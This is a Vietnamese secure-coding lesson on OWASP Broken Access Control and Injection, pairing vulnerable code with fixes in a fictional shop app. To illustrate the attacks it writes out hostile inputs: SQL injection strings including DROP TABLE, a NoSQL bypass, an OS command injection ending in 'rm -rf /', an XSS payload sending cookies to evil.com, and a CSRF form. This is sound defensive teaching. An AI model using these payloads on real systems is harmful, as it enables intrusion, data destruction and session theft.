

# 💉🚪 A01 Broken Access Control + A05 Injection

> **Tác giả:** Mr.Rom\
> **Phiên bản:** v2.0.2\
> **Tạo lúc:** 24/05/2026\
> **Cập nhật:** 11/06/2026\
> **Level:** Basic (bài 01/5)\
> **Tags:** [MUST-KNOW]\
> **Yêu cầu trước:** Bài [00_what-is-owasp-and-application-security](00_what-is-owasp-and-application-security.md) ✅, biết SQL cơ bản + HTTP

> 🎯 *Bài 01. **A01 Broken Access Control** = #1 OWASP 2025 — vuln phổ biến nhất (bản 2025 còn gộp luôn **SSRF**, vốn là category riêng A10 ở bản 2021). **A05 Injection** = #5 ở bản 2025 (tụt từ #3 năm 2021) — vẫn là lỗi kinh điển. Cả 2 chiếm phần lớn sự cố thật. Bài này dạy: IDOR, RBAC/ABAC implementation, SQL Injection + prepared statement, XSS (Stored/Reflected/DOM) + CSP, CSRF + SameSite, NoSQL/OS/LDAP injection. Hands-on fix 5 vuln thật trong Acme Shop.*

## 🎯 Sau bài này bạn sẽ

- [ ] Hiểu **IDOR** (Insecure Direct Object Reference) — vuln access control #1
- [ ] Implement **RBAC** + **ABAC** đúng cách trong FastAPI/Express
- [ ] Chống **SQL Injection** bằng parameterized query / ORM
- [ ] Phân biệt **Stored / Reflected / DOM-based XSS** + mitigation
- [ ] Setup **Content Security Policy (CSP)** anti-XSS
- [ ] Hiểu **CSRF** + chống bằng SameSite cookie + CSRF token
- [ ] Chống **NoSQL injection** (MongoDB), **OS command injection**, **LDAP injection**
- [ ] Audit code review checklist cho A01 + A05

---

## Tình huống — Acme Shop pen-test report

Bạn nhận report:

**Critical findings**:
1. `GET /api/orders/123` — bất kỳ user nào cũng xem được order #123 (IDOR).
2. `POST /api/login` — user input `' OR '1'='1' --` → login as admin (SQL Injection).
3. Comment box trong product page — `<script>alert(1)</script>` → executed (Stored XSS).
4. Admin panel `/admin/promote-user` — không check role; bất kỳ logged-in user POST đều thành admin.
5. Cookie session không có `SameSite=Strict` → CSRF qua malicious site.

5 critical = 5 fix. Bài này dạy từng cái + ngăn lần sau.

---

## 1️⃣ A01 — Broken Access Control

🪞 **Ẩn dụ**: *Access Control như **thẻ ra vào tòa nhà** — mỗi thẻ ghi rõ ai (user), được vào phòng nào (resource), làm gì (read/write). Broken Access Control = **thẻ photocopy được**, hoặc **cửa phòng không kiểm thẻ**, hoặc **admin office quên khóa**.*

> 📌 **Thay đổi 2025:** OWASP Top 10:2025 đã **gộp SSRF** (*Server-Side Request Forgery* — vốn là category riêng **A10:2021**) vào chung **A01 Broken Access Control**, vì SSRF bản chất là server truy cập tài nguyên mà nó không được phép. SSRF được dạy chi tiết ở bài 04 của cụm này.

### Loại 1 — IDOR (Insecure Direct Object Reference)

**Vuln**: Object ID có thể đoán/enumerate, server không check ownership.

```python
# Anti-pattern
@app.get("/api/orders/{order_id}")
def get_order(order_id: int, user: User = Depends(current_user)):
    order = db.query(Order).filter(Order.id == order_id).first()
    return order  # ❌ Không check user.id == order.user_id
```

Attacker:
```
GET /api/orders/1
GET /api/orders/2
GET /api/orders/3
... → harvest all orders
```

**Fix**:
```python
@app.get("/api/orders/{order_id}")
def get_order(order_id: int, user: User = Depends(current_user)):
    order = db.query(Order).filter(
        Order.id == order_id,
        Order.user_id == user.id,  # ✅ ownership check
    ).first()
    if not order:
        raise HTTPException(404)  # 404 not 403 — không leak existence
    return order
```

**Best practice**:
- Dùng **UUID** thay int ID (khó enumerate).
- Indirect reference: map session token → internal ID.
- Centralize ownership check via decorator/middleware.

### Loại 2 — Thiếu kiểm soát truy cập ở cấp chức năng (Missing Function Level Access Control)

**Vuln**: Endpoint admin không check role.

```python
# Anti-pattern
@app.post("/admin/promote-user")
def promote(user_id: int, current: User = Depends(current_user)):
    db.execute(...)  # ❌ Không check current.role == "admin"
```

**Fix với RBAC**:
```python
def require_role(role: str):
    def checker(user: User = Depends(current_user)):
        if role not in user.roles:
            raise HTTPException(403)
        return user
    return checker

@app.post("/admin/promote-user", dependencies=[Depends(require_role("admin"))])
def promote(user_id: int):
    ...
```

### RBAC vs ABAC

| Aspect | RBAC | ABAC |
|---|---|---|
| Decision based on | Role (admin, editor, viewer) | Attribute (user, resource, env, action) |
| Complexity | Low | High |
| Flexibility | Limited | Very high |
| Example | "User has admin role" → can delete | "User in dept=Finance AND resource.region=EU AND time=business_hours" → can read |
| When | Most apps | Complex enterprise / compliance |

```python
# RBAC simple
def require_role(*roles):
    def checker(user: User = Depends(current_user)):
        if not set(roles) & set(user.roles):
            raise HTTPException(403)
        return user
    return checker

# ABAC with policy engine (e.g., Casbin, OPA)
from casbin import Enforcer
e = Enforcer("model.conf", "policy.csv")
if not e.enforce(user.id, resource.id, "read"):
    raise HTTPException(403)
```

### Công cụ: Open Policy Agent (OPA) + Rego

```rego
# policy.rego
package authz

default allow = false

allow {
    input.user.role == "admin"
}

allow {
    input.user.id == input.resource.owner_id
    input.action == "read"
}
```

→ Centralize policy, không scatter `if user.role == ...` khắp code.

### Loại 3 — Leo thang quyền qua Mass Assignment

**Vuln**: API accept JSON body, assign vô controller field nhạy cảm.

```python
# Anti-pattern
@app.put("/api/profile")
def update_profile(data: dict, user: User = Depends(current_user)):
    for k, v in data.items():
        setattr(user, k, v)  # ❌ user gửi {"is_admin": true}
    db.commit()
```

**Fix**: explicit allowlist via Pydantic model.

```python
class ProfileUpdate(BaseModel):
    name: str
    avatar_url: str | None = None
    # ❌ KHÔNG include is_admin, role, ...

@app.put("/api/profile")
def update_profile(data: ProfileUpdate, user: User = Depends(current_user)):
    user.name = data.name
    user.avatar_url = data.avatar_url
    db.commit()
```

---

## 2️⃣ A05 — Injection (SQL/NoSQL/OS/LDAP)

🪞 **Ẩn dụ**: *Injection như **đút thư hối lộ vào hồ sơ pháp lý** — quan tòa tưởng đó là yêu cầu của bạn, thực ra là lệnh attacker chèn vào. Mọi data từ user phải qua "máy soi" (parameterize/escape) trước khi chuyển vào "phòng xử" (DB/OS/LDAP query).*

### SQL Injection — A05 OWASP 2025 (tụt từ #3 năm 2021)

**Vuln**:
```python
# Anti-pattern: string concatenation
@app.get("/login")
def login(username: str, password: str):
    sql = f"SELECT * FROM users WHERE username='{username}' AND password='{password}'"
    result = db.execute(sql).fetchone()
```

Attacker:
```
username = admin'--
password = anything
→ SELECT * FROM users WHERE username='admin'--' AND password='anything'
→ login as admin
```

Worse:
```
username = '; DROP TABLE users; --
```

**Fix — Parameterized query**:
```python
# Pattern: parameterized
result = db.execute(
    "SELECT * FROM users WHERE username=:u AND password=:p",
    {"u": username, "p": password},
).fetchone()
```

DB driver tách query template + data → data không bao giờ thành SQL command.

Sơ đồ dưới so sánh số phận của cùng một input độc khi đi qua 2 cách xử lý:



→ Cùng một input, khác biệt duy nhất là input có được DB **diễn giải thành lệnh SQL** hay chỉ là **dữ liệu thuần** — parameterized query đảm bảo vế sau.

**Fix — ORM**:
```python
# SQLAlchemy
user = db.query(User).filter(User.username == username, User.password == password).first()
```

ORM tự parameterize.

### Tránh false-safety của ORM

ORM **không** an toàn tự động nếu dùng raw query:

```python
# ❌ vẫn SQL Injection
db.query(User).filter(text(f"username = '{username}'")).first()

# ✅
db.query(User).filter(text("username = :u")).params(u=username).first()
```

### NoSQL Injection (MongoDB)

```python
# Anti-pattern
@app.get("/login")
def login(username: str, password: str):
    user = mongo.users.find_one({"username": username, "password": password})
```

Express + Mongo JS:
```javascript
// Attacker POST { "username": {"$ne": null}, "password": {"$ne": null} }
// → matches any user
db.users.findOne({ username: req.body.username, password: req.body.password })
```

**Fix**: type check + sanitize.

```python
if not isinstance(username, str) or not isinstance(password, str):
    raise HTTPException(400)
```

Plus: use **library** `mongo-sanitize` (Node) or **strict schema validation** (Pydantic).

### OS Command Injection

```python
# Anti-pattern
import os
@app.get("/ping")
def ping(host: str):
    return os.system(f"ping -c 1 {host}")
```

Attacker: `host=8.8.8.8; rm -rf /` → executed.

**Fix**:
```python
import subprocess
result = subprocess.run(["ping", "-c", "1", host], capture_output=True, timeout=5)
# Args là list, không qua shell → không interpret ;
```

Better: don't shell out; use library (`pythonping`).

### LDAP Injection

```python
# Anti-pattern
filter = f"(&(uid={user})(password={pw}))"
ldap.search(base, scope, filter)
```

Attacker: `user=*)(|(uid=*` → bypass.

**Fix**: escape LDAP special chars (`*`, `(`, `)`, `\`, `\0`).

```python
from ldap3.utils.conv import escape_filter_chars
filter = f"(&(uid={escape_filter_chars(user)})(password={escape_filter_chars(pw)}))"
```

### Checklist phòng ngừa

- ✅ **Parameterized query** mặc định.
- ✅ **ORM** + tránh raw query.
- ✅ **Input validation** (whitelist hơn blacklist).
- ✅ **Output encoding** đúng context.
- ✅ **Least privilege DB user** — chỉ SELECT/INSERT cần thiết.
- ✅ **WAF** layer 7 — bắt pattern phổ biến.

---

## 3️⃣ XSS — Cross-Site Scripting (subset of A05)

🪞 **Ẩn dụ**: *XSS như **kẻ giả trang chen vào kịch của bạn** — họ đọc lời thoại trên sân khấu (browser), khán giả tưởng là diễn viên thật. Encode output = **dán băng dính vào miệng** không cho phát biểu kịch bản lạ.*

### 3 loại XSS

| Type | Source | Persistence | Severity |
|---|---|---|---|
| **Stored (Persistent)** | DB / file | Yes | Critical |
| **Reflected** | URL / form | No | High |
| **DOM-based** | Client-side JS | No (per page load) | High |

### Stored XSS — Nguy hiểm nhất

**Vuln**: Comment với `<script>` lưu DB, render raw HTML.

```html
<!-- Anti-pattern: render raw -->
<div>{{ comment.text | safe }}</div>  <!-- Jinja2 'safe' = no escape -->
```

Attacker comment: `<script>fetch('https://evil.com?cookie='+document.cookie)</script>`

→ Mọi user xem comment → cookie leak.

**Fix — Auto-escape**:
```html
<!-- Pattern: auto-escape -->
<div>{{ comment.text }}</div>  <!-- Jinja2 default escape -->
```

→ `<script>` thành `&lt;script&gt;` — browser hiển thị literal.

### Reflected XSS

**Vuln**: URL param echo vào response.

```python
# Anti-pattern
@app.get("/search")
def search(q: str):
    return HTMLResponse(f"<h1>Result for: {q}</h1>")
```

Attacker URL: `?q=<script>alert(1)</script>`

**Fix**: Template engine auto-escape; manual `html.escape()`.

```python
from html import escape
return HTMLResponse(f"<h1>Result for: {escape(q)}</h1>")
```

### DOM-based XSS

**Vuln**: Frontend JS dùng `innerHTML` với data từ URL/cookie.

```javascript
// Anti-pattern
const name = new URLSearchParams(location.search).get("name");
document.getElementById("greeting").innerHTML = `Hello ${name}`;
// ?name=
```

**Fix**: Dùng `textContent` thay `innerHTML`.

```javascript
document.getElementById("greeting").textContent = `Hello ${name}`;
```

### Content Security Policy (CSP) — Lớp phòng thủ 2

CSP = HTTP header instruct browser **chỉ chạy script từ source allowed**.

```http
Content-Security-Policy: default-src 'self'; script-src 'self' https://cdn.acmeshop.vn; style-src 'self' 'unsafe-inline'; frame-ancestors 'none'
```

| Directive | Mô tả |
|---|---|
| `default-src 'self'` | Mặc định chỉ same origin |
| `script-src 'self' https://cdn.acmeshop.vn` | Script chỉ từ self + CDN cụ thể |
| `frame-ancestors 'none'` | Chống clickjacking |
| `object-src 'none'` | Chặn Flash/old plugin |
| `report-uri /csp-violation-report` | Browser report khi CSP fail |

→ Inline `<script>...</script>` bị block trừ khi có `'unsafe-inline'` (tránh) hoặc nonce.

### Nonce pattern (CSP hiện đại)

```python
# Backend generate nonce mỗi response
nonce = secrets.token_urlsafe(16)
response.headers["Content-Security-Policy"] = f"script-src 'nonce-{nonce}'"
# Template
return render("page.html", nonce=nonce)
```

```html
<script nonce="{{ nonce }}">
    // Inline OK vì có nonce match
</script>
```

---

## 4️⃣ CSRF — Cross-Site Request Forgery

🪞 **Ẩn dụ**: *CSRF như **kẻ gian gọi điện giả mạo bạn đến ngân hàng** — bạn đăng nhập sẵn (session cookie), evil.com tự động submit form chuyển tiền. Ngân hàng (server) tưởng bạn yêu cầu.*

### Cách hoạt động

1. User login `acmeshop.vn` → session cookie set.
2. User vào `evil.com` (không logout).
3. `evil.com` có form ẩn:
   ```html
   <form action="https://acmeshop.vn/api/transfer" method="POST">
       <input name="to" value="attacker_account">
       <input name="amount" value="1000">
   </form>
   <script>document.forms[0].submit()</script>
   ```
4. Browser auto-attach cookie acmeshop.vn → request gửi đi → server thực thi.

### Cách phòng chống — 3 lớp

**Layer 1 — SameSite cookie**:
```python
# FastAPI
response.set_cookie(
    "session", token,
    httponly=True,
    secure=True,
    samesite="strict",  # ✅ cookie không gửi khi request từ origin khác
)
```

- `samesite=strict`: cookie không gửi từ cross-site request (mạnh nhất).
- `samesite=lax`: cookie gửi khi top-level GET cross-site (link click OK, form POST không).
- `samesite=none`: cookie luôn gửi (chỉ dùng khi cần — phải có `secure`).

→ **2026 browser default = `lax`**.

**Layer 2 — CSRF token**:
```python
# Backend generate token per session
session["csrf_token"] = secrets.token_urlsafe(32)

# Template include trong form
<input type="hidden" name="_csrf" value="{{ session.csrf_token }}">

# Server verify
@app.post("/transfer")
def transfer(token: str = Form(alias="_csrf"), ...):
    if token != session.get("csrf_token"):
        raise HTTPException(403)
```

**Layer 3 — Origin/Referer check** (defense in depth):
```python
origin = request.headers.get("origin")
if origin != "https://acmeshop.vn":
    raise HTTPException(403)
```

### CSRF với SPA (JWT in header)

Nếu token gửi qua `Authorization: Bearer` header (không cookie) → **CSRF không applicable** vì cross-site không tự gửi custom header.

→ SPA + JWT in header thường không cần CSRF token.

---

## 🛠️ Hands-on — Fix 5 vuln Acme Shop

### Mục tiêu

Fix 5 critical từ pentest report.

### Fix 1 — IDOR `/api/orders/{id}`

```python
@app.get("/api/orders/{order_id}")
def get_order(order_id: int, user: User = Depends(current_user)):
    order = db.query(Order).filter(
        Order.id == order_id,
        Order.user_id == user.id,
    ).first()
    if not order:
        raise HTTPException(404)
    return order
```

### Fix 2 — SQL Injection login

```python
@app.post("/api/login")
def login(data: LoginIn):  # Pydantic schema strict
    user = db.query(User).filter(User.username == data.username).first()
    if not user or not verify_password(data.password, user.password_hash):
        raise HTTPException(401)
    return {"token": create_token(user)}
```

Plus: password hashed với Argon2 (xem bài 02).

### Fix 3 — Stored XSS comment

```python
# Server-side escape khi save (defense in depth)
import bleach
@app.post("/api/comments")
def post_comment(data: CommentIn, user: User = Depends(current_user)):
    clean_text = bleach.clean(data.text, tags=[], strip=True)  # Strip all HTML
    db.add(Comment(text=clean_text, user_id=user.id))
    db.commit()
```

Template auto-escape:
```html
<div>{{ comment.text }}</div>
```

Plus: CSP header.

### Fix 4 — `/admin/promote-user` no role check

```python
@app.post("/admin/promote-user", dependencies=[Depends(require_role("admin"))])
def promote(user_id: int):
    user = db.query(User).get(user_id)
    user.roles.append("admin")
    db.commit()
```

Plus: audit log.

```python
audit_log.info(json.dumps({
    "actor": current_user.id,
    "action": "promote_user",
    "target": user_id,
    "ts": datetime.utcnow().isoformat(),
}))
```

### Fix 5 — Session cookie `SameSite=Strict`

```python
response.set_cookie(
    "session_id", token,
    httponly=True,
    secure=True,
    samesite="strict",
    max_age=3600,
)
```

→ All 5 critical resolved. Re-pentest → 0 critical.

---

## 💡 Cạm bẫy thường gặp & Best practice

### 1. Trust client-side validation

**Bẫy**: JS validate form → assume server safe.

**Fix**: Mọi validation **phải** lặp lại server-side. Client validation chỉ cho UX.

### 2. `if user.role == "admin"` scatter khắp code

**Bẫy**: 50 endpoint, 50 chỗ check role → forget 1 chỗ = vuln.

**Fix**: Centralize qua decorator/middleware/policy engine (OPA).

### 3. ORM tin tưởng tuyệt đối

**Bẫy**: SQLAlchemy `db.query().filter(text(f"{user_input}"))` — vẫn injection.

**Fix**: Mọi user input qua parameterize, không string format.

### 4. Use `safe` filter trong template

**Bẫy**: `{{ comment | safe }}` cho dev tiện → forget revert → XSS.

**Fix**: Default escape; chỉ `safe` cho admin-controlled content được sanitize qua bleach.

### 5. CSP `unsafe-inline`

**Bẫy**: CSP cấm inline, dev không refactor → thêm `'unsafe-inline'` → CSP vô nghĩa cho XSS.

**Fix**: Dùng nonce hoặc hash; refactor inline script.

### 6. SameSite không set

**Bẫy**: Cookie không set `samesite` → modern browser default `lax`, nhưng cũ default `none`.

**Fix**: Explicit `samesite="strict"` cho session cookie.

### 7. UUID nhầm tưởng = secure

**Bẫy**: Dùng UUID v1 (predictable timestamp-based) → attacker đoán next UUID.

**Fix**: UUID v4 (random) hoặc v7 (sortable + random).

### 8. WAF thay validation

**Bẫy**: Cài WAF → ignore input validation server-side.

**Fix**: WAF là 1 lớp; server-side validation luôn cần.

---

## 🧠 Tự kiểm tra (Self-check)

- [ ] Mô tả IDOR + cách fix với ownership check?
- [ ] RBAC vs ABAC — khi nào dùng cái nào?
- [ ] Parameterized query vs string concat — viết được 2 ví dụ Postgres?
- [ ] 3 loại XSS + mitigation mỗi loại?
- [ ] CSP header tối thiểu cho web app?
- [ ] CSRF với SameSite + token + Origin check?
- [ ] Phân biệt SQL Injection vs NoSQL Injection?
- [ ] Code review checklist 5 mục cho A01 + A05?

---

## 📚 Từ Điển Thuật Ngữ (Glossary)

| Term | Vietnamese / Explanation |
|---|---|
| **IDOR** | Insecure Direct Object Reference — access không check ownership |
| **RBAC** | Role-Based Access Control |
| **ABAC** | Attribute-Based Access Control |
| **OPA** | Open Policy Agent — policy engine |
| **Mass assignment** | Vuln assign vô controller all field |
| **SQLi** | SQL Injection |
| **NoSQLi** | NoSQL Injection |
| **Parameterized query** | Query với placeholder, data tách riêng |
| **Prepared statement** | DB-side parsed query template |
| **XSS** | Cross-Site Scripting |
| **Stored XSS** | Payload lưu DB, persist |
| **Reflected XSS** | Payload echo từ URL/form |
| **DOM XSS** | Client-side JS sink |
| **CSP** | Content Security Policy |
| **Nonce** | One-time token per response |
| **CSRF** | Cross-Site Request Forgery |
| **SameSite cookie** | Cookie attribute restrict cross-site |
| **CSRF token** | Synchronizer token pattern |
| **WAF** | Web Application Firewall |
| **Output encoding** | Encode data trước render context-aware |

---

## 🔗 Liên kết & Tài nguyên

### 🧭 Định hướng lộ trình học
- ⬅️ **Bài trước:** [OWASP Top 10 + Application Security cơ bản](00_what-is-owasp-and-application-security.md)
- ➡️ **Bài tiếp theo:** [A02 Cryptographic Failures + A04 Insecure Design](02_crypto-failures-and-secure-design.md) *(sắp viết)*
- ↑ **Về cụm:** [OWASP README](../../README.md)

### 🧩 Các chủ đề có thể bạn quan tâm
- ↑ **Về cụm:** [Authentication cluster](../../../authentication/)
- ↑ **Về cụm:** [Authorization cluster](../../../authorization/)
- 🐍 [FastAPI auth](../../../../07_web/backend/python-fastapi/lessons/01_basic/04_auth-and-middleware.md)
- 🐘 [SQL injection prevention](../../../../06_databases/sql-fundamentals/) — DB layer
- ↑ **Về cụm:** [HTTP cluster](../../../../05_networking/http-https/)

### Tài nguyên ngoài (2026)
- 📖 [OWASP Top 10:2025 (bản hiện hành)](https://owasp.org/Top10/2025/)
- 📖 [OWASP A01:2025 — Broken Access Control (gồm cả SSRF)](https://owasp.org/Top10/2025/A01_2025-Broken_Access_Control/)
- 📖 [OWASP A05:2025 — Injection](https://owasp.org/Top10/2025/A05_2025-Injection/)
- 📖 [OWASP XSS Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- 📖 [OWASP CSRF Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
- 📖 [OWASP Access Control Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Authorization_Cheat_Sheet.html)
- 📖 [Open Policy Agent](https://www.openpolicyagent.org/)
- 📖 [Casbin](https://casbin.org/) — access control library
- 📖 [PortSwigger SQLi lab](https://portswigger.net/web-security/sql-injection)
- 📖 [PortSwigger XSS lab](https://portswigger.net/web-security/cross-site-scripting)
- 📖 [Content Security Policy reference](https://content-security-policy.com/)
- 📖 [DOMPurify](https://github.com/cure53/DOMPurify) — JS sanitizer
- 📖 [Bleach](https://bleach.readthedocs.io/) — Python HTML sanitizer

---

## 📌 Nhật ký thay đổi (Changelog)

- **v1.0.0 (24/05/2026)** — Bản đầu tiên. Bài 01 OWASP basic. A01 Broken Access Control (IDOR/RBAC/ABAC/Mass Assignment) + A03 Injection (SQLi/NoSQLi/OS/LDAP/XSS/CSRF) + CSP + Nonce + SameSite + hands-on fix 5 vuln Acme Shop + 8 pitfalls. Pattern theo lesson 00.
- **v2.0.1 (11/06/2026)** — Việt hoá heading nội dung mô tả sang tiếng Việt (giữ thuật ngữ/brand/param) theo Vietnamese-first.
- **v2.0.0 (07/06/2026)** — Cập nhật sang **OWASP Top 10:2025** (bản hiện hành, thay bản 2021). Injection đổi numbering **A03 → A05** (tiêu đề bài, section header, các tham chiếu trong thân bài + self-check). Broken Access Control giữ **A01**, bổ sung ghi chú **SSRF gộp vào A01** (vốn là A10:2021). Cập nhật link tài nguyên OWASP sang URL 2025. Giữ nguyên toàn bộ nội dung kỹ thuật + code mẫu.
- **v2.0.2 (11/06/2026)** — Bổ sung sơ đồ flow SQL Injection (nối chuỗi vs parameterized query) cho trực quan.
